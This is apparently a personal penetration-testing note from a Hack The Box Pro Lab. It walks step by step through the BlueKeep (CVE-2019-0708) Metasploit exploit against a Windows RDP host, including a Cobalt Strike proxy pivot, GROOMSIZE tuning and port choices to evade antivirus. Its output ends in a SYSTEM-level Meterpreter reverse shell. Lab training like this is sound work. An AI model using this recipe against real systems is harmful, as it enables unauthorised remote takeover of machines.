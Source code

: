 ```yaml
---
created_date: 27 October 2023
updated_date: TBD
type: windows
tags:
  - "#offshore"
  - "#bluekeep"
  - "#cve-2019-0708"
---
```


url links:
https://www.rapid7.com/blog/post/2019/09/06/initial-metasploit-exploit-module-for-bluekeep-cve-2019-0708/
https://github.com/rapid7/metasploit-framework/issues/13732

note links:
`offshore GROOMSIZE Modification:` [[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/to_WS02/blue_keep_check_&_Exploit]]

tips:
- `msfconsole` module has pre designated targets to try, however it is very common to have to modify the `GROOMSIZE` by utilizing `set GROOMSIZE 50`, `set GROOMSIZE 100`, (50/100 = MB) etc.. to ensure proper exploitation of the victim machine.
# Vulnerabilities:
vulnerable to windows versions listed below:
```
    1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)                                                                                               
    2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)                                                                                           
    3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)                                                                                              
    4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)                                                                                              
    5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)                                                                                            
    6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)                                                                                                
    7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)                                                                                                    
		8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)  
```
required vulnerable ports:
```
3389 - Remote Desktop Protocol
```
The `msfconsole` version of blue keep `windows/rdp/cve_2019_0708_bluekeep_rce` works under specific settings listed below:
# Through Proxy
if throwing blue_Keep against an internal network, you must set a proxy in `msfconsole`, first go into cobalt strike and setup a proxy on desire machine
```bash
socks5 2222
```
in cobalt strike navigate to host with beacon -> pivots -> tunnel ang copy the command that is shown on the screen
![[Pasted image 20231027142400.png]]
open up `msfconsole` copy and paste the tunnel command
```bash
msf6 > setg Proxies socks5:127.0.0.1:2222
Proxies => socks5:127.0.0.1:2222
```
once done with `msfconsole` proxy use command
```bash
msf6 > unset Proxy
Unsetting Proxy...
```
search `blue keep`
```bash
msf6 > search bluekeep

Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep    2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
   1  exploit/windows/rdp/cve_2019_0708_bluekeep_rce  2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free
```
`use 0` to test if the exploit will work against desired machine
the only option needed to use is `set rhosts <desired victim ip>`
```bash
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 172.16.1.101
rhosts => 172.16.1.101
```
`run`
```bash
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 172.16.1.101:3389     - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 172.16.1.101:3389     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
the host is vulnerable, we can now attempt to throw the exploit
```bash
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > search blue keep

Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep    2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
   1  exploit/windows/rdp/cve_2019_0708_bluekeep_rce  2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
`use 1`
```
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > use 1
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > 
```
`show options`
```bash
set RHOSTS <victim IP>
set LHOST <kali IP>
set LPORT <4444> # keep in mind AV, might have to use 443 80 or 8443
```
`show targets`
- here you set the desired target if you know if its running in a VM or not, if its not `target 1` has worked for me.
```
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic targeting via fingerprinting
    1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
    2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
    3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
    4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
    5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
    6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
    7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)
    8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)
```
`show advanced`
```bash
set GROOMSIZE 100
set ReverseAllowProxy True
```
`run`
```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set GROOMSIZE 100                                                                                
GROOMSIZE => 100                                                                                                                                        
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 1                                                                                     
target => 1                                                                                                                                             
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run                                                                                              
                                                                                                                                                        
[*] Started reverse TCP handler on 10.10.14.39:8443                                                                                                     
[*] 172.16.1.101:3389 - Running automatic check ("set AutoCheck false" to disable)                                                                      
[*] 172.16.1.101:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check                                                                     
[+] 172.16.1.101:3389     - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.                            
[*] 172.16.1.101:3389     - Scanned 1 of 1 hosts (100% complete)                                                                                        
[+] 172.16.1.101:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.                                
[*] 172.16.1.101:3389 - Using CHUNK grooming strategy. Size 100MB, target address 0xfffffa8009c00000, Channel count 1.                                  
[!] 172.16.1.101:3389 - <---------------- | Entering Danger Zone | ---------------->                                                                    
[*] 172.16.1.101:3389 - Surfing channels ...                                                                                                            
[*] 172.16.1.101:3389 - Lobbing eggs ...                                                                                                                
[*] 172.16.1.101:3389 - Forcing the USE of FREE'd object ...                                                                                            
[!] 172.16.1.101:3389 - <---------------- | Leaving Danger Zone | ---------------->                                                                     
[*] Sending stage (200774 bytes) to 10.10.110.3                                                                                                         
[*] Meterpreter session 1 opened (10.10.14.39:8443 -> 10.10.110.3:37353) at 2023-10-27 13:08:19 -0400                                                   
                                                                                                                                                        
meterpreter > getuid                                                                                                                                    
Server username: NT AUTHORITY\SYSTEM                                                                                                                    
```
